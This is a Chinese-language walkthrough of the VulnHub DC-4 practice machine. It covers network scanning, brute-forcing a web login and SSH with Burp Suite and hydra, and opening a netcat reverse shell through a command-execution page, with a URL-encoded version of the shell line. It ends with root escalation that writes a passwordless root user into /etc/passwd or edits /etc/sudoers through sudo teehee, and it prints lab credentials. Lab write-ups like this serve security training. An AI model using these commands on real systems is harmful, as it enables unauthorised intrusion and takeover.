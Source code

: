 # DC 4

## 环境准备

- 镜像地址：https://www.vulnhub.com/entry/dc-4,313/
## 知识点

- 反弹shell
- SSH爆破
- SUID-teehee提权

## 信息收集

```bash
ifconfig all # 这里是因为本地局域网
nmap -sP 10.30.0.0/24 # IP探测 扫描本地C段的网络端口信息
nmap -A -p- -T4 10.30.0.135
```

扫出22和80端口

![](./img/vulnhub-dc4-1.png)
## 漏洞利用

利用burpsuite暴力破解得到admin与happy，登录后发现存在执行代码的功能点

![](./img/vulnhub-dc4-2.png)

抓包尝试命令whoami

![](./img/vulnhub-dc4-3.png)

尝试反弹shell

```bash
nc -lvp 4444 # kali
nc -nv 10.30.0.81 4444 -e /bin/bash # 目标
nc+-nv+10.30.0.81+4444+-e/bin/bash
python -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm
```

![](./img/vulnhub-dc4-4.png)

```bash
cd /home/jim/backups
cat old-passwords.bak # 是密码表，直接用hydra对jim用户来爆破SSH密码
hydra -l jim -P password.txt ssh://10.30.0.135
```

![](./img/vulnhub-dc4-5.png)

获得账号密码：jim jibril04

```bash
ssh jim@10.30.0.135
ls
cat mobx # root发给jim的邮件，提示看邮箱
cat /var/mail/jim
```

![](./img/vulnhub-dc4-6.png)

charles | ^xHhA&hvim0y
```bash
ssh charles@10.30.0.135
sudo -l
```
![](./img/vulnhub-dc4-7.png)

说明charles用户可以使用sudo权限运行teehee命令，可以查看这个命令能做什么：可以将标准输入复制到我们选择的文件中。那么我可以直接写一个 root 权限的用户到 /etc/passwd 下，也可以直接在 sudoers 里给 charles 所有权限
```
teehee --help
1.直接写个 root 权限用户
echo "test::0:0:::/bin/sh" | sudo teehee -a /etc/passwd
cat /etc/passwd | grep '/bin/bash'
su test
whoami
2.在 sudoers 里给 charles 所有权限
echo "charles ALL=(ALL:ALL) ALL" | sudo teehee /etc/sudoers
sudo -l
sudo su
```
![](./img/vulnhub-dc4-8.png)
## 参考链接

- https://github.com/ffffffff0x/1earn/blob/004fbc731d7ce8004b9c2a38613d39f71cd8cb6e/1earn/Security/%E5%AE%89%E5%85%A8%E8%B5%84%E6%BA%90/%E9%9D%B6%E6%9C%BA/VulnHub/DC/DC4-WalkThrough.md
- http://www.kxsy.work/2021/07/27/shen-tou-dc-4/